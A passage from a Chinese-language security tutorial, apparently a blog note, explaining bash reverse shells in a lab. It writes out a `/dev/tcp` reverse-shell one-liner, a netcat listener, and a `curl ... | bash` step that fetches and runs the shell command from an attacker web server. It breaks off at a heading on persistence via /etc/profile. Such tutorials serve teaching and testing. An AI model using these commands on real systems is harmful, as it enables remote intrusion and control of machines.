 `bash -i >& /dev/tcp/192.168.158.139/23333 0>&1`

**成功反弹 shell：**
**目标机** 界面(反弹)：
![image-20230426012903048](https://res.cloudinary.com/sycamore/image/upload/v1682443746/Typera/2023/04/c693896f2e2fa73809cee178b0f6533b.png)

**攻击机** 界面(监听)： 
![image-20230426012858851](https://res.cloudinary.com/sycamore/image/upload/v1682443743/Typera/2023/04/6fb9f5e48c00f60ba91673a9f6c734eb.png)


### 详细解释：

- `bash -i`
	- 产生一个 **bash** 交互环境。
- `>&`
	- 把联合符号 前面 的内容与 后面 相结合，然后一起**重定向**给后者。
- `/dev/tcp/192.168.158.139/23333`
	- `/dev/tcp/ip/port` 是 **bash** 中定义的一个方法，
	- 作用是：让攻击机(192.168.158.139) 和目标机，在攻击机的 23333 端口上，建立一个 **tcp** 连接。
- `0>&1`
	- 0、1 为**文件描述符**。
	- 即将 **标准输入(0)** 与 **标准输出(1)** 的内容相结合，然后**重定向**给前面 **标准输出(1)** 的内容。（在反弹 shell 中实现 **输入输出** 的关键）

### Curl 配合 Bash
丰富一下用 Bash 反弹 Shell 的手段
（Curl 的命令借助了Linux中的管道）

#### 1. 准备 index.php 文件：
攻击机中创建 `index.php` 文件，
填写的**内容**为：直接使用 `Bash` 反弹 **Shell** 的情况下，目标机中运行的命令，即：
> bash -i >& /dev/tcp/192.168.158.139/23333 0>&1

**存放**在 **web** 目录下，
演示的 **Kali Linux** 虚拟机开启 **Apache2** 服务之后，对应目录为：`/var/www/html/`

开启 **Apache2** 服务之后，会在上述目录下生成一个 `index.php` 文件，
可以直接删去内容并 **修改**，该文件只是生成一个 **web** 页面而已（如下图）
![image-20230426012853268](https://res.cloudinary.com/sycamore/image/upload/v1682443737/Typera/2023/04/97eb1b3565e6f8745bf100a9b5ee31ed.png)

#### 2. 攻击机打开 23333 端口的监听
命令：`netcat -lvvp 23333`
#### 3. 目标机输入 Curl 命令反弹 shell
命令：`curl 192.168.158.139|bash`

实现如图：
![image-20230426012839981](https://res.cloudinary.com/sycamore/image/upload/v1682443723/Typera/2023/04/66bf859ff6c462a364624b51a215fd64.png)

成功反弹 **Shell**：
![](https://res.cloudinary.com/sycamore/image/upload/v1682443715/Typera/2023/04/01742775f569ce91fa25a5f8f25ed544.png)

### Bash 反弹命令写入 /etc/profile 文件
